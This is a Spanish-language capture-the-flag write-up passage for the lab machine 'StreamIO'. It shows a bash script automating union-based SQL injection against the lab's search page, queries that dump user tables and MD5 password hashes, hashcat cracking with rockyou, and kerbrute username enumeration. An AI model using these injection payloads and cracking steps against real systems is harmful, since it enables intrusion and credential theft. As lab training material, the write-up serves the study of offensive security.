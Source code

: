 ```bash
** Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) Sep 24 2019 13:48:23
Copyright (C) 2019 Microsoft Corporation Express Edition (64-bit) on Windows
Server 2019 Standard 10.0  (Build 17763: ) (Hypervisor) **
3 Watch                                                                                                                
```
Ahora habrá que extraer informacion de la base de datos, como sale un output lleno de ruido (`**** Search for a movie:...`)
hay que limpiarlo, estuve trabajando en un script que automatiza esa tarea al que llame `query.sh`
```bash
#!/bin/bash
echo "QUERY: q=test' union select 1,<query> -- -"
while true
do
  echo -n "sql:> " && read query
  curl -sk -X POST 'https://watch.streamio.htb/search.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d "q=test' union select 1,$query-- -" | html2text | grep -vE '^$|3 Watch' | tr -d "*" | tail -n +4
done
```
Entonces haremos la query tal que
```bash
└─$ sudo rlwrap bash query.sh
QUERY: q=test' union select 1,<query> -- -
sql:> @@version,3,4,5,6
 Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) Sep 24 2019 13:48:23
Copyright (C) 2019 Microsoft Corporation Express Edition (64-bit) on Windows
Server 2019 Standard 10.0  (Build 17763: ) (Hypervisor) 
```
Asi que obtenemos el resto de datos:
- `sql:> DB_NAME(),3,4,5,6 from master..sysdatabases;` -> la base de datos actual es `STREAMIO`
- `sql:> name,id,4,5,6 from streamio..sysobjects where xtype='U';` sacar las bases de datos y sus ID obtenemos dos, pero la que nos interesa es `users` (id `901578250`)
- `sql:> name,3,4,5,6 from streamio..syscolumns where id=901578250;` salen 4, `id`, `is_staff`, `password`, `username`
- Los hashes `sql:> concat(username,':',password),3,4,5,6 from users;` que metemos en el archivo creds.txt

```bash
└─$ cat creds.txt 
 :d41d8cd98f00b204e9800998ecf8427e 
 admin :665a50ac9eaa781e4f7f04199db97a11 
 Alexendra :1c2b3d8270321140e5153f6637d3ee53 
 Austin :0049ac57646627b8d7aeaccf8b6a936f 
 Barbra :3961548825e3e21df5646cafe11c6c76 
 Barry :54c88b2dbd7b1a84012fabc1a4c73415 
```
Rompemos las contraseñas con hashcat: 
```bash
└─$ hashcat creds.txt /usr/share/wordlists/rockyou.txt --user -m 0 &>/dev/null

└─$ hashcat creds.txt /usr/share/wordlists/rockyou.txt --user -m 0 --show
d41d8cd98f00b204e9800998ecf8427e:
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
```
Para evitarnos la fuerza bruta metemos los usaurios en una lista de usaurios y comprobamos por kerberos cuales existen:
```bash
└─$ cat creds.txt | awk '{print $1}' FS=":" > users.txt

└─$ kerbrute userenum --dc 10.10.11.158 -d streamio.htb users.txt | grep "+"
2024/02/21 14:37:16 >  [+] VALID USERNAME:	yoshihide@streamio.htb
```